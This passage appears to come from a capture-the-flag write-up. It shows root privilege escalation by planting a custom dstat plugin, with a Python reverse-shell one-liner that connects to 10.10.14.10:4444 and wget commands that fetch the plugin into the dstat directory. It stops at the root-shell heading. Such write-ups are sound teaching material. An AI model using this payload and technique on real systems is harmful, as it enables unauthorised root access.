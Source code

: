 Creating a Dstat Plugin
-----------------------

The \[Dstat man page\](https://linux.die.net/man/1/dstat) has a section about plugins.

> Plugins
> 
> While anyone can create their own dstat plugins (and contribute them) dstat ships with a number of plugins already that extend its capabilities greatly. Here is an overview of the plugins dstat ships with:

Since we saw in the conf file that we may be able to execute commands as root from the dstat directory, lets try to create a custom dstat plugin that will execute a payload as root.

First we'll need to know the proper naming convention for dstat plugin files which is dstat\_filename.py where filename is the name of your plugin. I created a plugin file using this naming convention containing the payload below.

```text-plain
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);
```

Now I will start a python http server from the location of the file I created.

```text-plain
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

From the SSH terminal wget the plugin file from your local machine.

```text-plain
wget 10.10.14.10:8080/dstat_notshell.py
--2023-05-08 01:32:31--  http://10.10.14.10:8080/dstat_notshell.py
Connecting to 10.10.14.10:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 216 [text/x-python]
Saving to: ‘dstat_notshell.py’
dstat_notshell.py            100%[===========================================>]     216  --.-KB/s    in 0s      
2023-05-08 01:32:31 (17.2 MB/s) - ‘dstat_notshell.py’ saved [216/216]
```

Check that the file is in the /usr/local/share/dstat directory before moving on to the next step.

```text-plain
ls -al
total 12
drwxrwx--- 2 root   player 4096 May  8 01:35 .
drwxr-xr-x 6 root   root   4096 Nov 17 09:16 ..
-rw-rw-r-- 1 player player  216 May  8 01:24 dstat_notshell.py
```

Root Shell Access
-----------------
